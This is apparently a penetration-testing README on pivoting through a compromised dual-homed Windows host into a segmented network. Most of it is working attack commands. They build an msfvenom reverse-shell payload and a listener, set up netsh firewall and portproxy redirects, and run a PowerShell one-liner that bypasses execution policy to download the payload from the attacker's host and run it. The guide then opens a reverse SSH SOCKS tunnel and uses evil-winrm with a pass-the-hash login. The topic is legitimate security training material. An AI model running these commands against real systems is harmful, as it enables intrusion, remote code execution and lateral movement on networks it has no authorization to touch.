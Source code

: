 ## Reverse SSH Tunnel Method
As a penetration tester, you are expected to know how to pivot between hosts even when they reside on segmented networks. Segmented hosts are typically in-scope and often engagement target(s). The following example examines one method to accomplish segmented network pivoting via a dual-homed server compromised by the attacker without writing any third-party tools to disk.
***
### Simplified Segmented Network
![Segmented Network Example](segmented-network-live-off-the-land-example.png)

### Simplified Segmented Network Details
The following are the relevant example details:
```plaintext
Attacker IP:
	192.168.75.85

Dual-Homed Compromised Host (Windows x64) IPs:
	192.168.200.200
	10.10.1.200

Target Internal Client (Windows x64) IP:
	10.10.1.50

Intended Pivot:
	192.168.75.85 -> 192.168.200.200 -> 10.10.1.50

Additional Route Details:
	192.168.75.85 -> 10.10.1.50 = No Route To Host
	10.10.1.50 -> 192.168.75.85 = No Route To Host
```

### Assumptions
1. Dual-Homed Compromised Host is already compromised by the attacker
2. The attacker has escalated their privileges to Administrator, SYSTEM, or equivalent
3. Interaction via RDP, WinRM, webshell, xp_cmdshell, etc., with Target Internal Client is already direct possible via session (RDP or otherwise) on Dual-Homed Compromised Host.
4. The unaltered MSFVenom payload is sufficient to bypass defenses such as AMSI and Defender. During real engagements default payloads like this should not be used. For the purposes of simplifying this example, we assume the payload will execute properly.
---
### Step-By-Step Instructions For Pivot
1. (Kali) Make payload and place in apache default webroot. Note that the IP address in the command belongs to the Dual-Homed Compromised Host. In a later step we configure the Dual-Homed Compromised Host to forward the shell traffic to the attacker's Kali host.
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.200 LPORT=8669 -f psh -o /var/www/html/win-x64-8669.txt;
```
2. (Kali) Start apache2 to host payload
```zsh
sudo service apache2 start;
```
3. (Kali) Start MSFConsole's multi/handler to receive callback shell
```zsh
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 8669; set ExitOnSession false; exploit -j";
```
4. (Compromised Host) Open up TCP port 4422. Used to reach the attacker on port 80 to download payload
```powershell
netsh advfirewall firewall add rule name="TCP Port 4422 Allow In" dir=in action=allow protocol=TCP localport=4422;
```
5. (Compromised Host) Redirect TCP traffic received on 4422 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 80
```powershell
netsh interface portproxy add v4tov4 listenport=4422 listenaddress=10.10.1.200 connectport=80 connectaddress=192.168.75.85;
```
6. (Compromised Host) Open up TCP port 8669. Used to reach the attacker on port 8669 for callback shell
```powershell
netsh advfirewall firewall add rule name="TCP Port 8669 Allow In" dir=in action=allow protocol=TCP localport=8669;
```
7. (Compromised Host) Redirect TCP traffic received on 8669 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 8669
```powershell
netsh interface portproxy add v4tov4 listenport=8669 listenaddress=10.10.1.200 connectport=8669 connectaddress=192.168.75.85;
```
8. Using exploit, RDP / WinRM / other connection from compromised host to target internal host, download "win-x64-8669.txt" from attacker. Note that the IP address used is the compromised host and the port (4422) is the one redirected to the attacker at 192.168.75.85 port 80
```powershell
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadString('http://10.10.1.200:4422/win-x64-8669.txt') | IEX"
```
9. Receive remote shell in MSFConsole
***
***
### Additional Pivoting Option via Reverse SSH Tunnel
In some cases, you will want to have a socket opened on the Compromised Dual-Homed Host for your tools, such as CrackMapExec, Evil-WinRM, SQLMap, etc., to tunnel through. Doing so allows your local tools to work with proxychains to reach and target otherwise unreachable hosts on segmented networks. To make this socket, we can use the SSH client on the compromised host SSH into our Kali machine and open a socket locally (on Kali) that we can pivot through.

Before continuing, first ensure you have proxychains4 setup:
```zsh
sudo apt update
sudo apt install proxychains4
```

#### Step-By-Step Instructions For SSH Reverse Tunnel
1. Create a new Kali user and ensure they are allowed to SSH into your instance. (Alternatively, use the provided script named `generate-ssh-user.sh` to create, and delete when finished with the `--clean` flag, temporary ssh users.)
2. Using PowerShell on the Compromised Dual-Homed Host, SSH into your Kali machine using the following command (only use the "-i" option if you are using an identity file for SSH authentication to your Kali machine and have placed this file on the Compromised Host):
```zsh
ssh -R 1080 <generated_user>@<kali_IP_address> -i <file_path_to_private_identity_file_if_using_one>
```
3. Ensure your `/etc/proxychains4.conf` has `socks5 127.0.0.1 1080` under `[ProxyList]`. An example of a working `proxychains4.conf` file, with all comments removed, is shown below:
```plaintext
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```
4. Using proxychains, you can now reach any host the Compromised Host can reach as long as the SSH session to your Kali machine remains intact. The following is an example command you could use to obtain a remote shell directly from Kali if WinRM is enabled on the Target Internal Client (10.10.1.50) and you have the local Administrator password hash, which is `ddce269a1e3d054cae349621c198dd52` in this example. (Note that the `-q` flag suppresses proxychains output but is not required)
```zsh
proxychains -q evil-winrm -i 10.10.1.50 -u Administrator -H ddce269a1e3d054cae349621c198dd52
```
